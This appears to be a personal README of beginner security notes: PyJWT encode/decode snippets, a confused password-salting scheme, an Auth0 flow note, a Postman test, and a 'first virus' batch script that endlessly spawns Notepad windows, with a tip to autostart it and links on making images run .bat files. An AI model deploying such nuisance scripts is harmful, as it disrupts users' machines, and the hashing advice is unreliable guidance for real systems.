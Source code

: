 # security

# encode jwt

https://pyjwt.readthedocs.io/en/stable/


2- provide an encoded secret

``` 
d_string = 'secret'
data_bytes = d_string.encode("utf-8")
encoded_secret = base64.b64encode(data_bytes)  [c2VjcmV0]
code = jwt.encode({'sub':'AccountNUmber.QTVR','nbf':'1501594247','exp':'1501860089', 'iss': 'client_id', 'aud': 'https://login.google.com/oauth'},
                  base64.b64decode('c2VjcmV0'), algorithm='HS256')

```

```
# encode_jwt payload
encoded_jwt = jwt.encode({"school": "udacity"}, "learning", algorithm="HS256")
print(encoded_jwt)
```

```
encoded_jwt = jwt.encode({"school": "udacity"}, "learning", algorithm="HS256")
print(encoded_jwt)
decoded_jwt = jwt.decode(encoded_jwt, "learning", verify=True)
print(decoded_jwt)
decoded_base64 = base64.b64decode(str(encoded_jwt).split(".")[1]+"==")
print(decoded_base64)
```

# layer of secuirty in hash
1. hash password + dynamic salat
2. store salat in diffrent table make the forgien key userid + number (best select number from hashed password to add it) make it the first number in hashed as index)
3. store the salat in diffrent database , and best is to store the forgein key in another table even the developer may not get the correct pass :D
4. only problem if it read the server file itself 
5. as i said to protect submiting the hash valdaite first if submited password == hashed password before hash(post.password) == stored password
6. this make it check if password submited was hashed which should not known by user
7. hash with key  + the salt + encrypted forigen for salat + 3 database tables  in 3 diffrent servers are most secured way


# get user info

https://auth0.com/docs/flows/add-login-auth-code-flow

1.  get the code not token
2.  send request to get the token with that code it will include the data


# test postMan

```javascript
pm.test("Status code is 401", function() {
     pm.response.to.have.status(401);
});

```

# some viruses
https://techgrinch.com/create-a-virus/

image act as bat file  to excute the code 

https://stackoverflow.com/questions/8767708/execute-a-bat-file-when-an-image-is-viewed

------------------------------------------------------------------------------------------------

!this for learn not for hack 

# my First Virus simple I created (.bat)

* this can be good if used with it command to auto run when pc start else it noob virus (task scheduler)

```
# hide show only output
@echo off

# back here to repeat
:top

# create new file name my_message_to_you
type NUL >"%TEMP%\My_Message_To_You.txt"

# write the message in the note pad created
echo From Python King I love you >> "%TEMP%\my_message_to_you.txt"

# open the notepad created with the message
%SystemRoot%\notepad.exe "%TEMP%\my_message_to_you.txt"

# back to top and repeat forever until pc restart 
GOTO top

```
